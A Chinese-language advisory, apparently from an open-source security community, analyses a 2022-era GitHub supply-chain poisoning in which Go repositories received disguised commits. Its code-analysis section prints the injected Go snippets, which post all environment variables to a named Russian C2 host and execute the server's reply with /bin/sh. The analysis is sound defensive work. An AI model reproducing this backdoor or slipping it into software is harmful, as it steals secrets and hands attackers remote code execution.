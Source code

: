 # 事件简述

oscs 开源安全社区监测到8月3日13时，名为 Stephen Lacy 的工程师在 Twitter 中表示其发现 GitHub 中大量仓库被加入了恶意代码，感染文件超过3.5万，涉及 Go 代码、NPM 安装脚本、容器镜像配置等内容。

-   被感染的仓库大多数处在长期不维护的状态，star 和 fork 数量基本为0

<!---->

-   恶意代码在最早在2019年已经提交进部分仓库，不少仓库是在最近10天左右被感染

<!---->

-   信息收集和控制指令的服务地址位于俄罗斯

15时许，GitHub 开始对受影响仓库进行清理，当前受影响仓库已经全部无法访问。

由于被投毒的开源仓库大多无人关注，预计此次事件本身的实际影响较小，但从攻击手法上来看体现了攻击者有较强的工程化利用能力。


![](https://p3-juejin.byteimg.com/tos-cn-i-k3u1fbpfcp/f78c4de80ba84cb2a8aebeb5b7369805~tplv-k3u1fbpfcp-zoom-1.image)

以`ovz1.j19544519`作为关键词在 GitHub 中可以搜索到超过3.5万个代码文件的结果。

![](https://p3-juejin.byteimg.com/tos-cn-i-k3u1fbpfcp/dfbe6c086bd34b35acec9f59a6b541e3~tplv-k3u1fbpfcp-zoom-1.image)

最早提交的恶意代码是在2019年

https://github.com/promonlogicalis/asn1/blob/7bdca06d0edf895069dc25fb60a49c6dae27b916/context.go#L241

![](https://p3-juejin.byteimg.com/tos-cn-i-k3u1fbpfcp/59163cd577e0415daa7e712837c63fa4~tplv-k3u1fbpfcp-zoom-1.image)




# 攻击手法分析

目前官方暂未给出该事件具体原因，对于此事件涉及众多账号，我们猜想可能存在以下三种情况：

-   GitHub 账号撞库

    -     抽样统计可以发现，多个被投毒的账号密码此前已经泄漏，因此可能通过撞库获得账号权限
    -   ![](https://p3-juejin.byteimg.com/tos-cn-i-k3u1fbpfcp/e98a8a3499c84bbbaca2945910dd9a15~tplv-k3u1fbpfcp-zoom-1.image)

<!---->

-   GitHub API Token 泄漏

攻击者通过收集公开泄漏的 token，从而对仓库进行直接操作

-   攻击者注册了一批马甲账号

攻击者可能注册了一批虚假的马甲账号，模仿真实项目，再通过马甲账号发布与原仓库类似的代码

![](https://p3-juejin.byteimg.com/tos-cn-i-k3u1fbpfcp/704a00c78a61442fa3b9cc19bca5dd2c~tplv-k3u1fbpfcp-zoom-1.image)



# 恶意代码分析

投毒的仓库大多为 go 的仓库，其中恶意代码如下，逻辑本身较为简单。特殊的是除了恶意代码外，攻击者在 commit 中还加入了「逼真」的注释、license、commit 说明等内容，使得恶意代码更容易隐藏。




攻击者可能通过收集原仓库 commit 信息，而后生成与之相似的结果，例如与代码变更相符的 Update README.md 或 Update license 提交，体现了攻击者有较强的工程化能力。

![](https://p3-juejin.byteimg.com/tos-cn-i-k3u1fbpfcp/a0744c260e21414ba4d154022da8df20~tplv-k3u1fbpfcp-zoom-1.image)

![](https://p3-juejin.byteimg.com/tos-cn-i-k3u1fbpfcp/b4dc1892f90a4185bd0430531652fb68~tplv-k3u1fbpfcp-zoom-1.image)

代码会先尝试获取"e452d6ab"环境变量，如果为"e452d6ab"值为1则直接结束运行。

```
  if os__.Getenv("e452d6ab") == "1" {
    return
  }
```

如果找不到对应的环境变量则设置"e452d6ab"环境变量，防止重复执行，然后将当前环境的环境变量转为 json 格式的变量 env。

```
  os__.Setenv("e452d6ab", "1")
  env, err := json__.Marshal(os__.Environ())
  if err != nil {
    return
  }
```

再将对应的环境变量发送给恶意服务器，环境变量中可能会包含 AWS access keys，Crypto keys 等敏感内容。

```
 res, err := http__.Post("http://ovz1.j19544519.pr46m.vps.myjino.ru:49460/?org=gojek-engineering&repo=go-multierror", "application/json", bytes__.NewBuffer(env))
  if err != nil {
    return
  }
```

最后使用 sh 执行恶意服务器的返回内容，为接下来的远程控制服务器，持久化连接，窃取敏感信息等恶意行为做准备。

```
  defer res.Body.Close()
  body, err := ioutil__.ReadAll(res.Body)
  if err != nil {
    return
  }
  if string(body) != "" {
    exec__.Command("/bin/sh", "-c", string(body)).Start()
  }
}
```

恶意代码中的 C&C 地址 ovz1.j19544519.pr46m.vps.myjino.ru，由俄罗斯的一家云服务器厂商 Джино 提供，因此攻击者位于俄罗斯的可能性较高。




# 针对开发者的建议

当前被投毒的仓库已经被 GitHub 官方删除，这些仓库大多无人关注，因此此次事件本身的实际影响较小，开发者在使用开源组件时需要注意甄别。

![](https://p3-juejin.byteimg.com/tos-cn-i-k3u1fbpfcp/43105b02145c4ad0b5b6fb69b9fd9053~tplv-k3u1fbpfcp-zoom-1.image)

从账号安全的角度来看，开发者需要尽量启用多因素验证、避免 API token 的泄漏，防止自己的项目被利用加入恶意代码。




# 情报订阅

OSCS(开源软件供应链安全社区)通过最快、最全的方式，发布开源项目最新的安全风险动态，包括开源组件安全漏洞、事件等信息。同时提供漏洞、投毒情报的免费订阅服务，社区用户可通过配置飞书、钉钉、企业微信机器人，及时获得一手情报信息推送：

https://www.oscs1024.com/?src=j




具体订阅方式详见：

https://www.oscs1024.com/docs/vuln-warning/intro/?src=j



![](https://p3-juejin.byteimg.com/tos-cn-i-k3u1fbpfcp/cf0ef3cf9d294c3f8c6773627e47628d~tplv-k3u1fbpfcp-zoom-1.image)
